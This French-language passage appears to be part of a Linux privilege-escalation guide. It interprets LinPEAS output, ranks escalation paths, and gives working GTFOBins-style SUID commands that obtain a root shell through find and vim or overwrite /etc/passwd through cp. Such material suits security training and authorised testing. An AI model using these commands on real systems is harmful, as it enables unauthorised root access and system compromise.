 ## 🔍 Interprétation des Résultats

### Code couleur LinPEAS
```bash
# Rouge (95%) - Escalade très probable
- SUID binaries exploitables
- Sudo rules dangereuses
- Kernel exploits connus
- World-writable scripts dans PATH

# Jaune (75%) - Escalade probable  
- Configuration services vulnérables
- Passwords en clair dans fichiers
- Cron jobs modifiables
- Docker sockets accessibles

# Vert (50%) - Escalade possible
- Informations système utiles
- Fichiers de configuration intéressants
- Processus d'autres utilisateurs
- Variables d'environnement
```

### Priorités d'exploitation
```bash
# Ordre de priorité recommandé :
1. Sudo rules avec NOPASSWD
2. SUID binaries (GTFOBins)
3. Writable /etc/passwd ou /etc/shadow
4. Kernel exploits
5. Cron jobs world-writable
6. Services running as root
7. Docker/LXC containers
8. NFS exports avec no_root_squash
```

## ⚔️ Exploitation des Découvertes

### SUID Binaries Exploitation
```bash
# Vérification GTFOBins
# Si find a SUID bit :
/usr/bin/find . -exec /bin/sh -p \; -quit

# Si cp a SUID bit :
echo 'root:$6$salt$hash:0:0:root:/root:/bin/bash' > /tmp/passwd
/usr/bin/cp /tmp/passwd /etc/passwd

# Si vim a SUID bit :
/usr/bin/vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

